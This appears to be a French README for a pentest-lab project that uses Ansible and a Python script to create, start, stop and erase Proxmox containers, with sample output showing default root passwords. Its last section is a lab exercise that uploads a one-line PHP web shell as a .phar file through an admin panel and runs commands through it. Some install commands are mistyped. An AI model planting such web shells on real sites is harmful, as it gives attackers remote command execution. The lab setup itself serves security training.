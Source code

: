 # VIR2
### Installation de git

```python
sudp apt install git
```

### Clonage du repo

```python
git glone https://github.com/andre1400/VIR2.git
chmod +x **/{AnsibleScriptLAB.yaml, AnsibleScriptPirate.yaml, ScriptPython.py}
```

### Installation du module python qu’on aura besoin pour notre script plus tard

```python
pip install absl-py
```

### Installation d’Ansbile

```bash
apt update
apt upgrade
apt install python3-pip
python3 -m pip install --user ansible
echo 'export PATH="$HOME/.local/bin:$PATH"' >> ~/.bashrc
source .bashrc
ansible-galaxy collection install community.mysql
```
## Create new template
```
root@pve-01:~# pct clone 100 {newId} --full --storage lxc-storage
```
### Attrapper la nouvelle ip
```
root@pve-01:~# pct exec {newId} -- ip addr | grep eth0 | grep inet | awk '{print $2}'
10.10.111.148/24
Start ansible machine & get his ip

root@pve-01:~# pct start 101
root@pve-01:~# pct exec 101 -- ip addr | grep eth0 | grep inet | awk '{print $2}'
192.168.100.140/24
root@pve-01:~# ssh root@ip
```
### Echange de clé pour la nouvelle machine
```
root@pve-01:~# ssh-keygen root@ip
```
### Edition du .yaml et du .ini file
```
root@pve-01:~# ansible-playbook -i inventoryPirate.ini AnsibleScriptPirate.yaml
```
### Convertion en template
```
root@pve-01:~# pct template {newId}
```
### Edition du ScriptPython.py avec les id's
```
def main(ARGV):
    pentesterlab = 102
    attacking = 100
```
# Utilisation des contenaires
## Creation
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task create --number 5
```
/// OUTPUT
```
Creation des pentesterlabs
ID : 200 Created
ID : 201 Created
ID : 202 Created
ID : 203 Created
ID : 204 Created
Creation des machines attaquantes
ID : 300 Created
ID : 301 Created
ID : 302 Created
ID : 303 Created
ID : 304 Created
```
## Start
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task start --number 3
```
///OUTPUT
```
==Start des machines pentesterlabs==
ID : 200 IP : 10.10.111.150/24
Username: root Password: Pa$$w0rd
ID : 201 IP : 10.10.111.151/24
Username: root Password: Pa$$w0rd
ID : 202 IP : 10.10.111.152/24
Username: root Password: Pa$$w0rd

==Start des machines attaquantes Let's GO !!!...==
ID : 400 IP : 10.10.111.143/24
Username: root Password: Pa$$w0rd
ID : 401 IP : 10.10.111.153/24
Username: root Password: Pa$$w0rd
ID : 402 IP : 10.10.111.154/24
Username: root Password: Pa$$w0rd
root@pve-01:/vir2/VIR2#
```
## STOP
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task stop --number 3
```
/// OUTPUT
```
==Stop des machines pentesterlabs==
ID : 200 Stopped
ID : 201 Stopped
ID : 202 Stopped

==Stop des machines attaquantes==
ID : 400 Stopped
ID : 401 Stopped
ID : 402 Stopped
```
## SUPPRESSION (STOP + SUPPRESSION)
/// INPUT
```
root@pve-01:/vir2/VIR2# python3 ./ScriptPython.py --task erase --number 3
```
///OUTPUT
```
==Remove des machines pentesterlabs==
  Logical volume "vm-200-disk-0" successfully removed
ID : 200 Removed
  Logical volume "vm-201-disk-0" successfully removed
ID : 201 Removed
  Logical volume "vm-202-disk-0" successfully removed
ID : 202 Removed

==Remove des machine attaquantess==
  Logical volume "vm-400-disk-0" successfully removed
ID : 400 Removed
  Logical volume "vm-401-disk-0" successfully removed
ID : 401 Removed
  Logical volume "vm-402-disk-0" successfully removed
ID : 402 Removed
```
## Lister
*Ca va lister uniquement l'environnement lab de l'étudiant, pour tous lister : pct list*

/// INPUT
```
root@pve:~# python3 ./ScriptPython.py --task list --number 2
```
///OUTPUT
```
Listing all containers :
200 stopped penterlabT
201 stopped penterlabT
300 stopped attackerT
301 stopped attackerT
```
## Exécution d’un script `myshell.php` sur `pentester-03` [3 pts]**
    1. Tester depuis le navigateur de l’étudiant *`http://pentester-03/admin/uploads/myshell.phar?cmd=ls`*
        
        <?php  
           system($_GET['cmd']);
        ?>
```
lynx http://10.10.111.169/
go to > Admin
type : y
Login : admin
Password : P4ssw0rd
go on > add
Title : myshell.PHP
File : myshell.phar
click on > add
CRTL + C to quit lynx
```
```
lynx http://10.10.111.169/admin/uploads/myshell.phar?cmd=ls
```
